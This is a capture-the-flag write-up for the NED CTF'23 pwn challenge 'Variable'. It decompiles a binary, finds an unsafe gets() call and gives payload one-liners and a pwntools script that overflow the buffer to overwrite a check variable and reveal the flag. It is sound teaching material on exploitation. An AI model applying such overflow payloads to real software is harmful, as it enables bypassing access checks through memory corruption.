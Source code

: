 ```yaml
---
title: NED CTF'23 - Pwn - Variable
date: '2023-07-03'
tags: ['ctf', 'pwn', 'nedctf', 'writeup', 'buffer-overflow', 'x64', 'variable-overwrite']
draft: false
summary: Overwriting variable to get the flag.
---
```


## Challenge Description

Navigate the binary labyrinth and bend variables to your will.

Author: [Saad Akhtar](https://twitter.com/ssaadakhtarr)

```bash
nc 159.223.192.150 9003
```

![chal-info](/static/writeups/nedctf/pwn/var0.png)

## Solution

Downloading the `variable.zip`, we get the following files

![files](/static/writeups/nedctf/pwn/var1.png)

The `file` security checks on the binary are as follows

![file](/static/writeups/nedctf/pwn/var2.png)

Let's run the `variable` binary to check what it does

![run](/static/writeups/nedctf/pwn/var3.png)

Okay, let's disassemble and check the functions inside ghidra

![functions](/static/writeups/nedctf/pwn/var4.png)

We can see a function called `authenticator`, which seems to be the function that checks if we have the correct password. The disassembled function is as follows

```c

void authenticator(void) {
  char *pcVar1;
  char local_168 [256];
  char local_68 [16];
  char local_58 [64];
  FILE *local_18;
  int local_c;

  local_c = -0x11e2153;
  printf("\n\n\nEnter the username: ");
  gets(local_58);
  printf("\nHello %s!\n",local_58);
  printf("\nPlease enter the secret password: ");
  fgets(local_68,0x10,stdin);
  if (local_c == -0x350c454d) {
    local_18 = fopen("flag.txt","r");
    if (local_18 == (FILE *)0x0) {
      puts("\nError: could not open file");
    }
    else {
      printf("\nAccess Granted!\nHere\'s the flag: ");
      while( true ) {
        pcVar1 = fgets(local_168,0x100,local_18);
        if (pcVar1 == (char *)0x0) break;
        printf("%s",local_168);
      }
      fclose(local_18);
    }
  }
  else {
    printf("\nAccess Denied!");
  }
  return;
}
```

Now, inside ghidra, we'll press `l` to rename variables, let's rename the variables accordingly and then the function becomes

```c
void authenticator() {
  char *ret;
  char flagBuffer [256];
  char secretPass [16];
  char userBuffer [64];
  FILE *fd_flag;
  int toOverwrite;

  toOverwrite = L'\xfee1dead';
  printf("\n\n\nEnter the username: ");
  gets(userBuffer);
  printf("\nHello %s!\n",userBuffer);
  printf("\nPlease enter the secret password: ");
  fgets(secretPass,0x10,stdin);
  if (toOverwrite == L'\xcaf3bab3') {
    fd_flag = fopen("flag.txt","r");
    if (fd_flag == (FILE *)0x0) {
      puts("\nError: could not open file");
    }
    else {
      printf("\nAccess Granted!\nHere\'s the flag: ");
      while( true ) {
        ret = fgets(flagBuffer,0x100,fd_flag);
        if (ret == (char *)0x0) break;
        printf("%s",flagBuffer);
      }
      fclose(fd_flag);
    }
  }
  else {
    printf("\nAccess Denied!");
  }
  return;
}
```

Now, we can understand quite easily what the function is doing. and see that `gets` function to perform our buffer overflow on. Let's understand the flow of this function:

1. Asking for username (gets) [unsafe]
2. Asking for secret password (fgets) [safe]
3. Checking if `toOverwrite` variable is `0xcaf3bab3` [Hardcoded value is 0xfee1dead]

### Exploitation

So, in order to overwrite the `toOverwrite` variable, we need to overflow the `userBuffer` variable. We're dealing with an `x64` binary, and the buffer size is 64, in order to overflow the `toOverwrite` variable, we need to overflow the `userBuffer` variable and then the `toOverwrite` variable.

So, we need to do some basic maths. Firstly, the buffer is of 64 bytes. In order to overflow this, we need to add 8 bytes to it, i.e. 72 bytes. Now, in order to find the offset of the variable, let's set a breakpoint on `authenticator` function inside gdb and then run the binary

```bash
(gdb) b *authenticator
```

![breakpoint](/static/writeups/nedctf/pwn/var5.png)

Now, we can see that the data of `toOverwrite` is being stored [rbp-4]. So, in our 72 bytes, we need to add 4 more bytes, and then the 4 byte dword i.e. `0xcaf3bab3`. So, our payload will be

```bash
python -c "print('A'*72 + '\x90' * 4 + '\xb3\xba\xf3\xca')" | ./variable
```

![flag](/static/writeups/nedctf/pwn/var6.png)

Now, it's recommended that we add `NOPS` to avoid mistakenly messing up the stack. So, let's redirect this exact payload to our nc listener:

```bash
python -c "print('A'*72 + '\x90' * 4 + '\xb3\xba\xf3\xca')" | nc 159.223.192.150 9003
```

![flag](/static/writeups/nedctf/pwn/var7.png)

For some reason, it got stuck here, to fix this, i added a `newline ('\x0a')` to the payload, and it worked

```bash
python -c "print('A'*72 + '\x90' * 4 + '\xb3\xba\xf3\xca' + '\x0a')" | nc 159.223.192.150 9003
```

> NOTE: If someone can explain to me, in detail why we need \n, please do so on Discord (TheFlash2k). Also, why I think we need the newline is that the `fgets` function is waiting for a newline, and we're not providing it, so it's stuck there. I may be wrong, or may be right, but I'm not sure. I just added it there and the exploit worked.

![flag](/static/writeups/nedctf/pwn/var8.png)

```md
Flag: NCC{s3cr3t_ov3rr1d3n_pwn3d}
```

Now, the exploit.py for this is as follows:

```py:exploit.py
#!/usr/bin/env python3

from pwn import *
import sys
import re

_bin = "./variable"
elf = context.binary = ELF(_bin)

if len(sys.argv) == 2 and sys.argv[1].lower() == "remote":
	io = remote('159.223.192.150', 9003)
else:
	io = process(_bin)

io.recv()

payload = flat(
	[
		b"A" * 72,
		b"\x90" * 4,
		p32(0xcaf3bab3),
		b'\n' # can be 0x0a
	]
)

io.sendline(payload)
buf = io.recv().decode('latin-1')
print(buf)
```

![flag](/static/writeups/nedctf/pwn/var9.png)
